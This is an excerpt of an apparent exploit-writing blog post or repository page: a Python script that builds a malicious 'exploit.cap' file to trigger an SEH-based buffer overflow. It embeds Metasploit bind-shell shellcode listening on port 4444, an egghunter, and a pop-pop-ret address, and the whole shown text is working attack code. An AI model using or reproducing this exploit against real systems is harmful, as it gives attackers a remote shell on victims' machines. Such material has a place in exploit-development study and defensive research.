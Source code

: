 # windows/shell_bind_tcp - 368 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LPORT=4444, RHOST=, PrependMigrate=false, 
# EXITFUNC=process, InitialAutoRunScript=, AutoRunScript=
shellcode = ( 
"w00tw00t" +
"\xdb\xdc\xba\xa0\x2a\xe7\xfa\xd9\x74\x24\xf4\x5e\x2b\xc9" +
"\xb1\x56\x31\x56\x18\x83\xc6\x04\x03\x56\xb4\xc8\x12\x06" +
"\x5c\x85\xdd\xf7\x9c\xf6\x54\x12\xad\x24\x02\x56\x9f\xf8" +
"\x40\x3a\x13\x72\x04\xaf\xa0\xf6\x81\xc0\x01\xbc\xf7\xef" +
"\x92\x70\x38\xa3\x50\x12\xc4\xbe\x84\xf4\xf5\x70\xd9\xf5" +
"\x32\x6c\x11\xa7\xeb\xfa\x83\x58\x9f\xbf\x1f\x58\x4f\xb4" +
"\x1f\x22\xea\x0b\xeb\x98\xf5\x5b\x43\x96\xbe\x43\xe8\xf0" +
"\x1e\x75\x3d\xe3\x63\x3c\x4a\xd0\x10\xbf\x9a\x28\xd8\xf1" +
"\xe2\xe7\xe7\x3d\xef\xf6\x20\xf9\x0f\x8d\x5a\xf9\xb2\x96" +
"\x98\x83\x68\x12\x3d\x23\xfb\x84\xe5\xd5\x28\x52\x6d\xd9" +
"\x85\x10\x29\xfe\x18\xf4\x41\xfa\x91\xfb\x85\x8a\xe1\xdf" +
"\x01\xd6\xb2\x7e\x13\xb2\x15\x7e\x43\x1a\xca\xda\x0f\x89" +
"\x1f\x5c\x52\xc6\xec\x53\x6d\x16\x7a\xe3\x1e\x24\x25\x5f" +
"\x89\x04\xae\x79\x4e\x6a\x85\x3e\xc0\x95\x25\x3f\xc8\x51" +
"\x71\x6f\x62\x73\xf9\xe4\x72\x7c\x2c\xaa\x22\xd2\x9e\x0b" +
"\x93\x92\x4e\xe4\xf9\x1c\xb1\x14\x02\xf7\xc4\x12\xcc\x23" +
"\x85\xf4\x2d\xd4\x38\x59\xbb\x32\x50\x71\xed\xed\xcc\xb3" +
"\xca\x25\x6b\xcb\x38\x1a\x24\x5b\x74\x74\xf2\x64\x85\x52" +
"\x51\xc8\x2d\x35\x21\x02\xea\x24\x36\x0f\x5a\x2e\x0f\xd8" +
"\x10\x5e\xc2\x78\x24\x4b\xb4\x19\xb7\x10\x44\x57\xa4\x8e" +
"\x13\x30\x1a\xc7\xf1\xac\x05\x71\xe7\x2c\xd3\xba\xa3\xea" +
"\x20\x44\x2a\x7e\x1c\x62\x3c\x46\x9d\x2e\x68\x16\xc8\xf8" +
"\xc6\xd0\xa2\x4a\xb0\x8a\x19\x05\x54\x4a\x52\x96\x22\x53" +
"\xbf\x60\xca\xe2\x16\x35\xf5\xcb\xfe\xb1\x8e\x31\x9f\x3e" +
"\x45\xf2\xaf\x74\xc7\x53\x38\xd1\x92\xe1\x25\xe2\x49\x25" +
"\x50\x61\x7b\xd6\xa7\x79\x0e\xd3\xec\x3d\xe3\xa9\x7d\xa8" +
"\x03\x1d\x7d\xf9"
)

junk1 = '\x41' * (70132-len(shellcode))

nseh = '\x90\x90\xEB\x04'
seh = struct.pack('<L', 0x61781709)

egghunter = '\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\x57\xc3'

filestruct = junk1 + shellcode + nseh + seh + egghunter + '\x44' * (50-len(egghunter))

f = open('exploit.cap', 'w')
f.write(header + filestruct)

print 'Done .. evil file written'
{% endhighlight %}
